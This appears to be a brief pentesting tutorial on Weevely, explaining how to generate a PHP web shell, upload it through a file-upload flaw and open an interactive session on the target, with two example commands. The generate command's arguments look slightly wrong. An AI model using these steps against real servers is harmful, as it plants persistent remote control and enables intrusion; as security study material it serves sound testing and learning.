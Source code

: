 **Weevely** permits to upload a **web shell** (usually PHP) to a target server and interact with it remotely through a web interface.
#### How It Works

1. **Generate Shell**: Use the `weevely generate` command to create a PHP web shell.
2. **Upload the Shell**: The generated shell is uploaded to the vulnerable server via file upload functionality.
3. **Access the Shell**: Access the uploaded shell via the web browser and interact with the server remotely.

#### Basic Commands

- Generate shell:
```bash
weevely generate http://<target-server>/path/to/shell.php <password> shell.php
```
- Interact with the shell:
```bash
weevely http://target.com/shell.php password
```
This will open an interactive shell session. Once connected, you’ll be able to run commands on the target server.